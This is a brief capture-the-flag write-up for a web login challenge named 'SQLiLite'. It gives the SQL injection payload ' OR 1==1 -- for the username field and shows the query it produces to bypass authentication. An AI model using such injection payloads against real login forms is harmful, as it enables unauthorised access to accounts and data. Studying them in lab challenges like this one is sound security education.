

# SQLiLite
Author: Tai

## Description
Author: Mubarak Mikail

Can you login to this website?

## Writeups

This challenge can be easily solved by using SQL injection
using this query on the username input form, the password box can type anything.

``` SQL
' OR 1==1 --
```

The query will become
```SQL
SQL query: SELECT * FROM users WHERE name='' OR 1==1 --' AND password='1'
```

Then we can successfully login and get the flag by go to the source page


